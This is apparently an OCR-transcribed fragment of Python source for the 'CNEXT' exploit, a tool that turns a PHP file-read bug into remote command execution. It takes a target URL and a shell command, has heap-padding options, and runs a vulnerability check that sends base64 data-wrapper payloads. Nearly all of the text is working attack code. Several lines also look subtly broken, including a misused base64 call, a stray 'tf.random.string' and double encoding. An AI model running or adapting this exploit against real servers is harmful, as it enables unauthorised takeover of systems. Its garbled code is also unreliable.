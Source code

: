 ```python
        
        if 'File type' in file_path:
            print(file_path)
            return b''
        
        response = self.session.get(file_path)
        data = response.content[6:]
        return data

    def data_decode(self, data:bytes)->bytes:
        data = data.decode('latin-1')
        return base64.decode(data + (4 - len(data) % 4) * '=')

@entry
@arg("url", "Target URL")
@arg("command", "Command to run on the system; limited to 0x140 bytes")
@arg("sleep", "Time to sleep to assert that the exploit worked. By default, 1.")
@arg("heap", "Address of the main zend_mm_heap structure.")
@arg(
    "pad",
    "Number of 0x100 chunks to pad with. If the website makes a lot of heap "
    "operations with this size, increase this. Defaults to 20.",
)
@dataclass
class Exploit:
    """CNEXT exploit: RCE using a file read primitive in PHP."""

    url: str
    command: str
    sleep: int = 1
    heap: str = None
    pad: int = 20

    def __post_init__(self):
        self.remote = Remote(self.url)
        self.log = logger("EXPLOIT")
        self.info = {}
        self.heap = self.heap and int(self.heap, 16)

    def check_vulnerable(self) -> None:
        """Checks whether the target is reachable and properly allows for the various
        wrappers and filters that the exploit needs.
        """
        
        def safe_download(path: str) -> bytes:
            try:
                return self.remote.download(path)
            except ConnectionError:
                failure("Target not [b]reachable[/] ?")
            

        def check_token(text: str, path: str) -> bool:
            result = safe_download(path)

            return len(set(result).intersection(set(text.encode()))) > 0

        text = tf.random.string(50).encode()
        base64 = b64(b'GIF89a' + text, misalign=True).decode()
        path = f"data:text/plain;base64,{base64}"
        
        result = safe_download(path)
        
        if len(set(result).intersection(set(text))) == 0:
```